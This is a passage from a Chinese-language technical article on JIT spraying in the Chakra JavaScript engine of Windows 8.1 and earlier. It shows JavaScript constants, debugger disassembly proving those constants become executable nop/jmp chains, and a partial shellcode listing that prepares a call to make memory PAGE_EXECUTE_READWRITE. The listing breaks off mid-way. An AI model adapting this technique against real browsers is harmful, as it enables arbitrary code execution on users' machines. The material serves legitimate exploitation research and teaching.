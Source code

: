 ```
...
a += 0x18EB9090/2;
a += 0x18EB9090/2;
...

```

在某几个条件同时满足的情况下，可以让Windows 8.1及其之前的Chakra引擎生成类似这样的机器指令：

```
...
05010090 81c19090eb18    add     ecx,18EB9090h
05010096 0f80d6010000    jo      05010272
0501009c 8bf9            mov     edi,ecx
0501009e 8b5dbc          mov     ebx,dword ptr [ebp-44h]
050100a1 f6c301          test    bl,1
050100a4 0f8413020000    je      050102bd
050100aa 8bcb            mov     ecx,ebx
050100ac 81c19090eb18    add     ecx,18EB9090h
050100b2 0f8005020000    jo      050102bd
050100b8 8bf9            mov     edi,ecx
050100ba 8b5dbc          mov     ebx,dword ptr [ebp-44h]
050100bd f6c301          test    bl,1
050100c0 0f8442020000    je      05010308
050100c6 8bcb            mov     ecx,ebx
...
0:017> u 05010090 + 2 l 3
05010092 90              nop
05010093 90              nop
05010094 eb18            jmp     050100ae
0:017> u 050100ae l 3
050100ae 90              nop
050100af 90              nop
050100b0 eb18            jmp     050100ca

```

所以只要写出每条指令长度不大于2字节的Shellcode，就可以嵌入到立即数中。因为实际产生的立即数是JavaScript中数字的2倍，所以使用的指令如果是2字节，第1字节必须为偶数。这是完全可能做到的。

```
0x5854   // push esp--pop eax    ; eax = esp, make eax writeable
0x5252   // push edx--push edx   ; esp -= 8
0x016A   // push 1
0x4A5A   // pop  edx--dec edx    ; edx = 0
0x5E52   // push edx--pop esi    ; esi = 0
0x40B6   // mov  dh, 0x40        ; edx = 0x4000, NumberOfBytesToProtect
0x5452   // push edx--push esp   ; *esp = &NumberOfBytesToProtect
0x5B90   // pop  ebx             ; ebx = &NumberOfBytesToProtect
0x14B6   // mov  dh, 0x14
0x14B2   // mov  dl, 0x14
0x5266   // push dx
0x5666   // push si              ; *esp = 0x14140000
0x525A   // pop  edx-push edx    ; edx = 0x14140000
0x5E54   // push esp--pop  esi   ; esi = &BaseAddress, 
0x5454   // push esp--push esp   ; push &OldAccessProtection 
0x406A   // push 0x40            ; PAGE_EXECUTE_READWRITE
0x5390   // push ebx             ; push  &NumberOfBytesToProtect
0x5690   // push esi             ; push &BaseAddress
0xFF6A   // push -1              ; 
0x5252   // push edx--push edx   ; set ret addr
0x5290   // push edx             ; prepare esp for fs:[esi]
0x016A   // push 1
0x4A5A   // pop  edx--dec edx    ; edx = 0
0xC0B2   // mov  dl, 0xC0
```